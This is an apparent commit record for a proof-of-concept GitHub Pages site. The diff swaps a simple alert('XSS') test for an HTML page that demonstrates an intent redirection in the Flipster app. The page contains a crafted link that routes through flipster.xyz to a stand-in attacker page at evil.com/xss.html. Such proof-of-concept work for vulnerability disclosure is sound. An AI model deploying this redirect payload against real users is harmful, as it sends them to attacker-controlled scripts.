

Before and after one commit to xaleraf4ra/test-poc.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html for Flipster PoC
Removed XSS script and updated content for Flipster PoC.

```diff
--- a/index.html
+++ b/index.html
@@ -1,8 +1,18 @@
+<!DOCTYPE html>
 <html>
+<head>
+    <title>Flipster PoC</title>
+</head>
 <body>
-<h1 id="result">XSS</h1>
-<script>
-alert("XSS");
-</script>
+    <h2>Flipster Intent Redirection PoC</h2>
+    <p>Click the link below on a device with Flipster installed:</p>
+
+    <a href="https://flipster.xyz/https://evil.com/xss.html">
+        Open in Flipster
+    </a>
+
+    <br><br>
+
+    <!-- Alternative: intent:// scheme for more reliable triggering -->
 </body>
 </html>
```
